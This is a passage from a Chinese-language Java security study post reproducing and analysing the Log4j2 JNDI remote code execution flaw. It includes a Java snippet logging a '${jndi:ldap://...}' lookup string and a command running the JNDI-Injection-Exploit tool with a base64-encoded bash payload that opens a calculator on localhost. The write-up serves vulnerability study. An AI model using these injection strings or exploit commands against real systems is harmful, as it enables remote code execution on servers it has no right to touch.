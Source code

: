 ```java
    public static void main(String[] args) {

        logger.error("${jndi:ldap://127.0.0.1:1389/ladr0g}");
    }
}
```


## 漏洞复现
先启动恶意服务器, 来给`ldap`/`rmi`调用返回恶意代码, 这里我利用`JNDI`注入工具直接生成了.

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,b3BlbiAtYSBDYWxjdWxhdG9y}|{base64,-d}|{bash,-i}" -A "127.0.0.1"
```

接着使用`logger.info`方法触发漏洞, 弹出计算器.

![](./Java安全学习—Log4j2远程代码执行漏洞/2.png)

## 漏洞分析
### 漏洞点确定
先查看一下[官方修订信息](https://issues.apache.org/jira/projects/LOG4J2/issues/LOG4J2-3201?filter=allissues), 可以知道漏洞的利用方式是通过`JNDI`中`LDAP`注入的方式实现`RCE`的, 再查看补丁的更改记录后, 可以看到其对`lookup`函数的判断进行了修改.

